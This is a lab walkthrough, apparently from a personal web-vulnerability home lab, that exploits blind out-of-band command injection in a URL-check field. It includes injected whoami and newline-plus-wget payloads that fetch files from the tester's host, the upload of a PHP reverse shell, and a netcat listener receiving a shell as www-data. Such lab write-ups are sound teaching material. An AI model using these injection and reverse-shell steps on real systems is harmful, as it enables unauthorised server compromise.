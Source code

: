 # Command Injection - Blind | Out of Bond

- In the provided tab where I can enter the URL, I will now proceed to further investigate and explore.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/4325adcd-d5b0-42ae-95d4-b05a3990adb0)

- Upon entering the website URL, the response received is "website ok."

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/90f8e072-acf7-4142-95f2-9f23f1103625)

- After attempting a simple payload, the response received remains the same, indicating "website ok" without any discernible changes.
- When trying to navigate to a random page in the URL, the response received is "website not found."

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/fc0a5688-5b28-4a03-a17a-9e9dfe228eb9)

- When attempting to execute a simple injection command and encountering a potential command filtering mechanism, it further reinforces the indication of a blind command injection vulnerability.
- By utilizing the webhook.site URL and injecting a command, I received a response from the URL containing the username. This confirms the existence of an `Out-of-band` command injection vulnerability.
- cmd: "<IP>?`whoami`"

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/a729dabd-f96d-4fda-9a79-011505975362)

- I attempted to make a new request using the newline character. The purpose of this request was to retrieve a file from my Linux machine.
- I set up a Python server on my machine and injected the command into the URL.
- cmd: `https://<RHOST> /n wget http://<LHOST>:8080/test`

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/fdcbbf2a-6493-4b2c-8f30-acb88ad53955)

- I observe that the request has been made successfully, indicating that the command injection was successful.

```bash
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
xxx.xxx.xx.4 - - [16/Jul/2023 04:50:29] code 404, message File not found
xxx.xxx.xx.4 - - [16/Jul/2023 04:50:29] "HEAD /test HTTP/1.1" 404 -
```
- As I see that the URL has been sanitizing signs like semicolons (;) and colons (:) so to bypass it I'll upload a PHP rev shell and then execute in order to take the rev shell back.

```bash
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
xxx.xxx.xx.4 - - [16/Jul/2023 05:00:04] "HEAD /phprevshell.php HTTP/1.1" 200 -
```
- On navigation from the browser to `IP/phprevshell.php` I got the revshell back to my system.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/c3d57cf5-7c44-46e7-8838-ec96fcca02d2)

```bash
└─$ rlwrap nc -nvlp 1234 
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.x86] from (UNKNOWN) [xxx.xxx.xx0.4] 52072
Linux d19181ed4936 6.3.0-kali1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.3.7-1kali1 (2023-06-29) x86_64 GNU/Linux
 04:01:55 up  5:09,  0 users,  load average: 1.83, 1.65, 1.65
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

